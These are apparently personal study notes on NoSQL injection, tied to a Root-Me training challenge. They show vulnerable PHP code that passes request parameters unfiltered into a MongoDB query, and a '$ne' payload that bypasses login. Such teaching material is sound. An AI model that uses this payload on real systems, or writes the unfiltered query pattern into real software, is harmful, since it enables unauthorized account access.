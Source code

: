 # NoSQL Injection (NoSQLi)

[![nosql_injection_authentication](../../../../_badges/rootme/web_server/nosql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)

<div class="row row-cols-lg-2"><div>

According to a company or an application needs, a NoSQL database may be used instead of the traditional SQL database. This is often the case when using [GraphQL](/programming-languages/others/apis/graphql/index.md) API Model.

While NoSQL database such as MongoDB are inherently more resilient to common attacks, they may still be exploited.

Assuming, we have the following PHP code:

```php!
// dummy.php?username=admin&password=toto
$result = $db_accounts->find([
  'username'=> $_GET['username'],
  'password' => $_GET['password'],
]);
```

The following query will be executed:

```php!
db.accounts.find({ "username": "admin", "password": "toto" });
```
</div><div>

In PHP, parameters can be transformed to an array: `dummy.php?username=admin&password[$ne]=toto` allowing us to control the request and bypass authentication.

```php!
// $_GET['password'] is now an array
// There is no filtering on the type of input, we can inject NoSQL code
db.accounts.find({ "username": "admin", "password": { "$ne": "toto" }});
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `$nin` for "NOT IN" array
* `$regex` for a condition based on a regex
</div><div>
</div></div>